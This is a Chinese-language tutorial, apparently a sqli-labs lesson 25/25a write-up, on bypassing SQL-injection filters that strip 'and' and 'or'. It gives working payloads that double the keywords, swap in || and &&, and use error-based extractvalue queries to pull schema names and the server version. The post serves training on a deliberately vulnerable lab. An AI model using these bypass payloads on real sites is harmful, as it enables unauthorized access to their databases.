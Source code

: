 ```yaml
---
title: 绕过and与or过滤
toc: true
description: 本文通过 sqli-lab 25及25a来学如何应对 and 与 or 的过滤。
summary: 本文通过 sqli-lab 25及25a来学如何应对 and 与 or 的过滤。
categories:
    - websec
    - sql injection
date: 2019-08-04 09:02:03
tags:
---
```


# 绕过方式

以下绕过方式基本按照实用程度（好用程度）排序

## or 绕过方式

### 符号绕过：||

注意：|| 直接使用就行，它不属于 url 中需要被转移的那种。

符号可以绕过的原因是 waf 一般只检测 and 和 or 的单词关键字，不检测对应数学符号。当然，要是 waf 过滤了它们，这种绕过也就不管用了，比如：本关可以在 blacklist 中加入以下代码，便过滤了& 和 |

    $id= preg_replace('/\\|/',"", $id);
    $id= preg_replace('/\\&/',"", $id);

### 双字符绕过：oorr

一次过滤，检测到中间的 or，去掉它，然后还剩下 o 和 r，正好组成一个 or，所以可以绕过。双字符应用了开发人员只进行一次过滤而不循环过滤的过失，当然，如果开发人员进行循环过滤，那么这种绕过方式就不管用了。

比如：本关的源码，就只是用一次过滤。

```php
$id= blacklist($id);
//中间省略好多行
function blacklist($id)
{
	$id= preg_replace('/or/i',"", $id);			//strip out OR (non case sensitive)
	$id= preg_replace('/AND/i',"", $id);		//Strip out AND (non case sensitive)

return $id;
}
```

### 大小写变形：Or,Or,or

一般用来绕过那些只检测 and 和 or，而不检测别的大小写形式（即：使用正则时，没有用 i 选项，忽略大小写进行匹配），当然，如果开发者使用正则时加了 i 选项，那这种绕过方式就失效了。这种方法不太管用（因为好多 waf 都不缺分大小写。）

## and 绕过方式

### 双字符：anandd

### 符号绕过:&&

注意：&& 不能直接使用，需要对他进行 url 编码，因为 &在 url 中有特殊用法：连接 get 请求的键值对。所以，就像 # 一样，在 url 中 # 号是用来指导浏览器动作的（例如锚点），所以使用它的时候也要进行 url 编码

### 大小写 aNd,AND,等

# 关键步骤

## 检测注入点

加个单引号，回显如下：

> **Warning**: mysql_fetch_array() expects parameter 1 to be resource, boolean given in **C:\phpStudy\WWW\sqli-labs\Less-25\index.php** on line **39**
> You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''1'' LIMIT 0,1' at line 1

嗯，有语句报错，真好。根据 '1'' LIMIT 0,1，我们得知，单引号包裹，后面有语句。

尝试加个注释，嗯，加了之后，不报错了，证明没有过滤注释。

## 猜字段

?id=1' order by 3--+

报错：

> You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near 'der by 3-- ' LIMIT 0,1' at line 1

可以看出 or 被过滤了（or 和 and 往往一起，开发人员想到过滤其一，就会想到另一个。因此，我们有理由相信 and 也被过滤了。）。

这里采用双字符，因为过滤 or，却影响到了 order by 中的 or，这是不怎么好的过滤（我认为），当然，还有其他一些类似的情况，比如：information 中的 or

?id=1' oorrder by 2 --+
不报错，显示正常，绕过成功。

后面使用 union 查询注入就行了。

# 报错注入

下面使用报错注入对 and/or 过滤注入进行进一步讲解。

双字符绕过：

?id=-1' oorr extractvalue(1,concat(0x23,(select schema_name from infoorrmation_schema.schemata limit 0,1))) --+

这里注意：information 中的 or 也要双字符。

?id=-1' anandd extractvalue(1,concat(0x23,concat(version())))--+

符号绕过：

?id=-1' || extractvalue(1,concat(0x23,concat(version())))--+

?id=-1' %26%26 extractvalue(1,concat(0x23,concat(version())))--+

注意：&&要使用 url 编码
